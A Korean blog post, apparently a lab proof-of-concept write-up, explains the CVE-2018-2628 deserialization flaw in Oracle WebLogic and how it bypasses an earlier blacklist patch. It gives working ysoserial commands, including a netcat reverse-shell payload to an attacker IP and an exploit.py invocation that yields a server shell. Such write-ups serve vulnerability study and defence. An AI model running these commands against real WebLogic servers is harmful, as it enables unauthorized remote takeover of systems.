 ```yaml
---
layout: article
title: "[CVE]CVE-2018-2628(WebLogic Server,RCE)"
key: 20180913
tags:
  - CVE
  - PoC
  - Web
  - RCE
toc: true
mathjax: true
mathjax_autoNumber: true
published : true
---
```


# [+] CVE-2018-2628(WebLogic Server)

<!--more-->

## [+] Summary

- Target : Oracle Weblogic Server
- CVE : [CVE-2018-2628](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-2628)
- Version : 10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3
- Vulnerability : 원격 명령 실행 (Remote Code Execution)
- Platform : 모든 플랫폼

## [+] Analysis

해당 취약점은 신뢰할 수 없는 데이터를 **역직렬화(Deserialize)**를 하며 발생하는 취약점으로 **RMI(Remote Method Invocation)** 통신 시 사용되는 **T3 Protocol**을 이용하며, 세션을 맺은 후 악의적인 페이로드를 전송하여 역직렬화된 임의의 코드가 실행되는 취약점이다.

[^역직렬화]: 직렬화를 통해 byte로 변환된 데이터를 원래의 객체나 데이터로 변환 
[^RMI Communication]: 원격 함수 호출로써 최종적인 목표는 RPC와 같으며 다른 네트워크의 객체 내 메소드 호출하는 것을 의미
[^T3 Protocol]: WebLogic Server와 다른 유형의 자바 프로그램 간의 정보를 전송하는데 사용

<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3248">CVE-2017-3248</a>(p24667634_1036_Generic) 으로 인한 패치 내용을 보면 '*resolveProxyClass*' 내에서 RMI 인터페이스의 '*java.rmi.registry.Registry*' 유형만 필터링하여 해당 취약점을 보완한 것을 확인할 수 있다.

```java
protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
   String[] arr$ = interfaces;
   int len$ = interfaces.length;
   for(int i$ = 0; i$ < len$; ++i$) {
      String intf = arr$[i$];
      if(intf.equals("java.rmi.registry.Registry")) { // 취약한 RMI 인터페이스
         throw new InvalidObjectException("Unauthorized proxy deserialization");
      }
   }
   return super.resolveProxyClass(interfaces);
}
```

그러나 블랙리스트 방식의 필터링을 사용하여 간단히 해당 인터페이스를 변경하여 우회가 가능하다.

해당 익스플로잇에 사용되는 도구는 **ysoserial**이란 도구로 Java의 직렬화, 역직렬화에서 발생하는 취약점을 이용해 RCE가 가능하게 하는 PoC 도구이며, 직렬화, 역직렬화 과정에서 '*Commons-Collections*' 라이브러리의 '*InvokerTransformer*' 를 악용하여 결과적으로 '*RuntimeExec*' 메소드를 호출하도록 만드는 도구이다. 위의 패치를 우회하기 위해 '*Registry*'가 아닌 '*Activator*'를 이용한다.

| Attacker     | Victim                           |
| ------------ | -------------------------------- |
| 192.168.1.86 | 192.168.1.13                     |
| Ubuntu linux | Windows (Weblogic Server 10.3.6) |

![1](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/1.png?raw=true "1"){:.border}

아래는 실행 중인 WebLogic Server의 'config.xml' 내용이다. 10.3.6 버전으로 취약한 버전에 해당된다.

```xml
<!--config.xml-->

<name>base_domain</name>
<domain-version>10.3.6.0</domain-version> <!--취약한 버전-->

+<security-configuration>
-<server>
	<name>AdminServer</name>
	-<server-debug>
		-<debug-scope>
			<name>weblogic.t3</name>
			<enabled>true</enabled>
		</debug-scope>
		-<debug-scope>
			<name>weblogic.t3.srvr</name>
			<enabled>true</enabled>
		</debug-scope>
		<debug-server-life-cycle>true</debug-server-life-cycle>
		<debug-server-start-statistics>true</debug-server-start-statistics>
	</server-debug>
	<listen-address/>
</server>
-<embedded-ldap>
	<name>base_domain</name>
	<credential-encrypted>{AES}eXPolKQ3q15ldCBGrLJhxLmy0Zvw/fUqvCSka6SrHVXGtdQkTKfzY6v2R3KNHOrX</credential-encrypted>
	</embedded-ldap>

<configuration-version>10.3.6.0</configuration-version>
<admin-server-name>AdminServer</admin-server-name>
```

아래의 명령어를 이용하여 페이로드에 포함 할 실행 명령어(*netcat*)와 RMI 통신 포트인 **1099**를 열고 대기한다.

```
[Command]
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -e cmd.exe 192.168.1.86 4444'
```

![2](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/2.png?raw=true "2"){:.border}

그 후 익스플로잇 코드를 이용하여 아래의 명령어를 실행 시 페이로드가 전달되며 세션이 맺어지고 역직렬화를 통해 해당 명령어가 실행되어 Weblogic Server의 쉘을 획득하는 것을 볼 수 있다.

```
[Command]
python exploit.py <target_ip> <port> ysoserial <attacker_ip> <JRMPListner_port> JRMPClient2

ex)
python exploit.py 192.168.1.13 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.1.86 1099 JRMPClient2
```

![3](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/3.png?raw=true "3"){:.border}

아래 패킷은 T3를 통해 7001 포트와 세션을 맺는 과정의 페이로드이다. 확인해보면 위에서 전달한 '*JRMPClient2(java.rmi.activation.Activator)*'를 이용하여 필터링을 우회하는 것을 볼 수 있다.

![4](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/4.png?raw=true "4"){:.border}

페이로드가 정상적으로 전달되어 세션을 맺고 RMI Port(1099)를 대기 중이던 공격자에게 서버가 **RMI Connection 요청**을 전달하는 것을 확인할 수 있다.

![5](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/5.png?raw=true "5"){:.border}

그리고 **RMI Communication**을 통해 공격자가 준비한 페이로드를 전달함으로써 서버에서 해당 명령어가 실행되며 공격자가 쉘을 획득하게 된다.

![6](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/6.png?raw=true "6"){:.border}

